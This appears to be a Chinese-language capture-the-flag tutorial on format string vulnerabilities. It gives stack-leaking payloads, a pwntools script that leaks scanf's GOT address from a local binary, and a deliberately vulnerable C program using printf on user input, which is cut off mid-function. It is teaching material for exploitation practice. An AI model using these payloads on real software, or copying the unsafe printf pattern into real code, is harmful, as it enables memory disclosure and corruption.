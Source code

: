 ### 1、获取栈上变量的数值

```bash
%08x.%08x.%08x
```

直接获取栈中被视为第 n+1 个参数的值

利用如下的字符串，我们就可以获取到对应的第 n+1 个参数的数值

```bash
%n$x
```

Summary

```
1.利用 %x 来获取对应栈的内存，但建议使用 %p，可以不用考虑位数的区别。
2.利用 %s 来获取变量所对应地址的内容，只不过有零截断。
3.利用 %order$x 来获取指定参数的值，利用 %order$s 来获取指定参数对应地址的内容。
```

### 2、泄露任意地址内存

AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p

先通过tag找格式化字符串的位置%4

AAAA0xffaab1600xc20xf76146bb**0x41414141**0x702570250x702570250x702570250x702570250x702570250x702570250x702570250x70250xffaab2240xf77360000xaec7%

通过格式化字符串泄露scanf函数的got表地址

#### exp：

```python
from pwn import *
sh = process('./main')
leakmemory = ELF('./main')
__isoc99_scanf_got = leakmemory.got['__isoc99_scanf']
print (hex(__isoc99_scanf_got))
payload = p32(__isoc99_scanf_got) + b'%4$s'
print (payload)
# gdb.attach(sh)
sh.sendline(payload)
sh.recvuntil('%4$s\n')
print (hex(u32(sh.recv()[4:8]))) # remove the first bytes of __isoc99_scanf@got
sh.interactive()
```

### 3、覆盖内存

**a、覆盖栈内存**

```c
#include <stdio.h>
int a = 123, b = 456;
int main() {
  int c = 789;
  char s[100];
  printf("%p\n", &c);
  scanf("%s", s);
  printf(s);
  if (c == 16) {
    puts("modified c.");
  } else if (a == 2) {
    puts("modified a for a small number.");
  } else if (b == 0x12345678) {
    puts("modified b for a big number!");
  }
```